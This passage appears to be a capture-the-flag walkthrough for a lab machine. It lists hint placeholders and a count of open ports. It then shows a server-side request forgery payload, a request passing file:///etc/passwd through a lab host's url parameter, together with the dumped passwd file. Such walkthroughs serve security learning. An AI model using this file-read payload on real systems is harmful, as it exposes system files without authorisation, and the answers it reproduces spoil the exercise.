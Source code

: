 I am providing some hints, but again try to spend some time on it by yourself before looking.

1. Hint 1

`No answer needed`

2. Hint 2

`No answer needed`

3. Hint 3

`No answer needed`

4. Hint 4

`No answer needed`

5. Hint 5

`No answer needed`

6. Hint 6

`No answer needed`

7. Hint 7

`No answer needed`

8. How many ports are open?

`5`

9.  How many users are there on the system?

[view-source:http://10.10.33.98:8000/attack?url=file%3A%2F%2F%2Fetc%2Fpasswd](view-source:http://10.10.33.98:8000/attack?url=file%3A%2F%2F%2Fetc%2Fpasswd)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
feast:x:1001:1001:,,,:/home/feast:/bin/bash
falconfeast:x:1002:1002:,,,:/home/falconfeast:/bin/bash
```
